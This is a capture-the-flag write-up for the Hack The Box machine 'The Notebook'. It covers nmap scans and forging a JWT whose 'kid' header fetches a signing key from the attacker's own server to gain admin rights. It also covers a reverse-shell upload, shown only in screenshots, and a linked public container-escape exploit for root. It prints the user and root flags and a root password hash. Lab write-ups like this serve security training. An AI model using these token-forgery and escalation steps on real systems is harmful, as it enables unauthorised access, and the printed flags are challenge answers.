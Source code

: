 # The Notebook Hackthebox Writeup

## All Ports Scan

```bash
┌─[R4hn1]─[10.10.14.45]─[root@V0ld3rm0rt]─[/media/root/Data/Walkthrough/HackTheBox/TheNotebook]
└────╼ # nmap -vv -p- 10.10.10.230
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:47 EDT
Scanning 10.10.10.230 [65535 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230
Not shown: 65532 closed ports
Reason: 65532 resets
PORT      STATE    SERVICE REASON
22/tcp    open     ssh     syn-ack ttl 63
80/tcp    open     http    syn-ack ttl 63
10010/tcp filtered rxapi   no-response

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 767.24 seconds
           Raw packets sent: 69783 (3.070MB) | Rcvd: 69840 (2.822MB)
```

## Complete Scan

```bash
┌─[R4hn1]─[10.10.14.45]─[root@V0ld3rm0rt]─[/media/root/Data/Walkthrough/HackTheBox/TheNotebook]
└────╼ # nmap -vv -sV -sC -sT -A -p22,80 -oA TheNotebook 10.10.10.230
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 13:28 EDT
Scanning 10.10.10.230 [2 ports]
Discovered open port 80/tcp on 10.10.10.230
Discovered open port 22/tcp on 10.10.10.230

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZwjrB05nGUvacI81YxNqy+6WpPHhIju6c73aoiru9nW/aVhTmOEsSOGoChEXeQeDN67ZN5QW4LFf0tXeQeJqvgO82HtFkUOiN8tt1RpI98SV+hx8scCzpmtAyu1OJSUM3/cL2tEPTcPHAgHTmroWiXxIMPhTFLIoDVBIqmBrORUIwgjIzFUbEDQJXKPkFciofbowVOkHnT+lv5XokU6571wrX/LRJvTNBEAvbbz0HAfvUkne8ycQsW08qk/BugiLnJHLg24YryGdHl5RqqW/42fsUADngFLncy2+/XCo8Pe/erO+7Zw6r4n1qVb0W0BZ+lRflcRss3diM/21R6O0z
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLeuBF/ZBUM0ZBYW4+vgQMhIPWVs2fzv9lmQHoflWFNMP/sFWZDeVneJE0CRSLnYi2y/wwc079bIsQRibay3Fpg=
|   256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDg0mzA1xTe9hivlJN4s+7eXaiyIYefpyykHIir3btEA
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: B2F904D3046B07D05F90FB6131602ED2
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=6/10%OT=22%CT=%CU=30481%PV=Y%DS=2%DC=T%G=N%TM=60C24BE2%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
           Raw packets sent: 58 (3.988KB) | Rcvd: 88 (4.796KB)
```

## Port 80 Enumeration

![](Images/Pasted%20image%2020210610134907.png)

### Found JWT Token 

![](Images/Pasted%20image%2020210610135406.png)

``` java
JWT Token : eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly9sb2NhbGhvc3Q6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6InVzZXJAZGVtby5jb20iLCJhZG1pbl9jYXAiOjB9.aXmyu2l5LiPXYaofV-h3vQ9FI0_5FCL5PSmxaSJ7JOT6q7R35fY38x2TPq6lvdXvbqGATFgwtOWYXYv7_fzDM3ZKMx9NQrFBPug_ShdvwGrv3EF_IIdUbJB_WLoI8dLJFPbf5-eKUZbUbNKYeR9PcTq4bXfOr9W1wx67sbUdSrUNxFn008wnL7-RI7DF_fusUKk7U_IUPWmoKxy1faAU3huOzJFIlQd5u89ajSkiUwFQWcAJ2JfcNCpwGH_4vy-rAt-qWCwqGPC1HDZIHdA7k9nTKflyegWmfVT1FXM1V23_9kNl80o7rFX5V0JDlXb7eI9dSWdg0XcPAMGdlBAQY6lgbVjUNJ5EvjO9YaO5vwWQ8Fyck-EEjGHj_xt1hh1CfMGPQxvY2VY3QSyw2MuhPHQvDRgDphvhB7b3BysxJkipO1S5pO13XLDsHKpXZ-2aUJ1Kp1uhsqY8vAm47_0kmlQTlQVZfln-F1KFmvQVdSPxp_iRqUCdsS5FESAfPhTtS_jKBi2gLGsR9WCs_kETLm6p9OVGxdUo33eA6h0Q1d4QPnxmLlsMNyqhhTDkXco9B4GjucvsURu2D6VWRGE_WJK4ZKU2FRFYMo6uzN2742GCrMSLcWZQHZx3hYtv6hMBikXof2UR9ym7xqX71J8uTifar3kDCR9pJXRuKdN70VA
```

![](Images/Pasted%20image%2020210610135529.png)

### Refrence Link

https://gist.github.com/ygotthilf/baa58da5c3dd1f69fae9

# Genrating JWT Token

##### Using jwt.io to genrate token
https://jwt.io/

```bash
# ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key
# openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub
# cat privKey.key.pub
# cat privKey.key
```

![](Images/Pasted%20image%2020210610140116.png)

```java
JWT Token (Decoded) :
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.45/privKey.key"
}

{
  "username": "user",
  "email": "user@demo.com",
  "admin_cap": 1
}
```

## JWT Token Manipulation

Intercept the request and manipulate token using Burpsuite or Cookie Editor,
Open python server on your local system so the machine can call the file.

![](Images/Pasted%20image%2020210610140645.png)

### Got the option to upload Reverse Shell

![](Images/Pasted%20image%2020210610140735.png)

## Here we got the shell

![](Images/Pasted%20image%2020210610141147.png)

## user Privese

![](Images/Pasted%20image%2020210610141424.png)

## We got the user

![](Images/Pasted%20image%2020210610141728.png)

```bash
User FLag: 1dba4e6e05f2a3e276359df8bdeedc54
````

![](Images/Pasted%20image%2020210610141822.png)

![](Images/Pasted%20image%2020210610141851.png)

## Got the exploit

https://github.com/Frichetten/CVE-2019-5736-PoC

### Download Exploit to machine

![](Images/Pasted%20image%2020210610142805.png)

![](Images/Pasted%20image%2020210610142824.png)

##### Successfully Executed

![](Images/Pasted%20image%2020210610143413.png)

# Hash 

```bash
 Root Flag : bbeca0815c3841c5e0e2811b50da4619
 Root Hash : $6$OZ7vREXE$yXjcCfK6rhgAfN5oLisMiB8rE/uoZb7hSqTOYCUTF8lNPXgEiHi7zduz1mrTWtFnhKOCZA9XZu12osORyYnKF.
 ```